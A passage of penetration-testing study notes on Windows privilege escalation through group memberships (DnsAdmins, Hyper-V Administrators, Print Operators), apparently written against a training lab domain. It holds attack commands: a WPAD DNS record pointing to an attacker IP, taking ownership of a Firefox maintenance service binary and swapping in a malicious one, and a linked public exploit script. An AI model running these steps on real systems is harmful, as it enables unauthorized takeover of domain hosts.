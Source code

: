         # add WPAD record
        Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
        # where 10.10.14.3 is the attacker IP
        ```

* Hyper-V Administrators:

    * If DCs (Domain Controller) have been virtualized, the virtualization admins can be considered Domain Admins; they can clone the live DC, mount the virtual disk offline and obtain the NTDS.dit file

    * [This blog](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/) also shows a way to delete the VM, so that ```vmms.exe``` attempts to restore original file permissions on corresponding ```.vhdx``` file as ```NT AUTHORITY\SYSTEM``` - we can delete the ```.vhdx``` file and create a native hard link to point to a protected SYSTEM file - we will get full control to this

    * If OS is vulnerable to CVE-2018-0952 or CVE-2019-0841, we can use an app with service running as SYSTEM (and can be started by unprivileged users) to gain SYSTEM privileges

    ```cmd
    # we can use this PoC exploit script - 'https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1'
    # suppose the protected SYSTEM file is the Mozilla Maintenance Service for Firefox

    # we can execute the PS script as shown in the blog
    # then take ownership of the file we have gained control over
    takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

    # now we can replace this file with a malicious 'maintenanceservice.exe'
    # then start the service to get execution as SYSTEM
    sc.exe start MozillaMaintenance
    ```

* Print Operators:

    ```cmd
    whoami /groups
    # part of Print Operators
    # this grants us the SeLoadDriverPrivilege
    # it can be exploited in builds before Windows 10 version 1803
